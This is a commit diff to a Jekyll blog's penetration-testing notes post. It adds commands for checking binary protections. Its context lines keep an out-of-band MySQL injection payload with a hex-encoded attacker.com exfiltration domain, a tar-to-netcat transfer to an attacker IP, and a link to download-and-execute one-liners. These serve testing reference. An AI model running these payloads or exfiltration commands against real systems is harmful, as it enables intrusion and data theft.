

Before and after one commit to sahildhar/sahildhar.github.io, a Jekyll site: the page built from _posts/2017-12-07-Pentest-Notes.md, in a window 1280 px wide and 1400 px high, scrolled down 2990 px. Shown: the whole window at 92% size, without its empty margins (3-1032 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3801 px from its top, so only the background shows below that.

Commit message:
Added binary protection check commands

````diff
--- a/_posts/2017-12-07-Pentest-Notes.md
+++ b/_posts/2017-12-07-Pentest-Notes.md
@@ -94,7 +94,6 @@ python -m smtpd -n -c DebuggingServer localhost:25
 ## Binary Exploitation
 
 1. Linux
-
    1. Find the offset of /bin/sh in libc
     ```bash
 strings -a -t x /lib/libc-2.11.2.so |grep "/bin/sh"
@@ -121,20 +120,46 @@ readelf -h ./binary.elf
 readelf -e ./binary.elf
 ```
 
+## Binary Protection Checks
+
+   * Check debug information for binaries
+      ```bash
+      find . -type f -iname "*.so" -executable -exec echo -e "\r\n" \; -exec file {} \;
+      ```
+
+   * To list the symbol information
+   ```bash
+   nm -an <binary_name>
+   ```
+
+   * Check if stack is executable with gdb-peda checksec
+   ```bash
+   find . -type f -iname "*.so" -exec echo {} \; -exec gdb -q --batch -ex checksec -ex quit  {} \;
+   ```
+
+   * Check if stack is executable readelf
+   ```bash
+   find . -type f -iname "*.so" -exec echo {} \; -exec readelf -l  {} \; | grep -i -A1 GNU_STACK
+   ```
+
+   * Check binary protections for binaries in iOS apps
+   ```bash
+   find . -type f -executable -exec echo {} \;  -exec sh -c "rabin2 -I {} |grep --color -E \"nx|pic|canary|relocs|stripped\"" \;
+   ```
+
 ## MISC
 
 * Important Links
 
-  * Windows One liners to download and execute payload
+  * One liners to download and execute payload (Windows)
       * [https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
 
 
-  * \[MySQL\] Out of Band SQL Injection \[Without Quotes\]
+  * Out of Band SQL Injection without quotes (MySQL)
     ```bash
     12,13) union select LOAD_FILE(group_concat(0x2f2f2f2f,(select @@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2 --
     ```
-  * Transfer large files over network
-    * <u>nc & tar</u>
+  * Transfer large files over network (netcat & tar)
       ```bash
       tar -cf - <dir>|nc <attacker_ip> <port>
       nc -lnvp <port> |tar -xf -
````
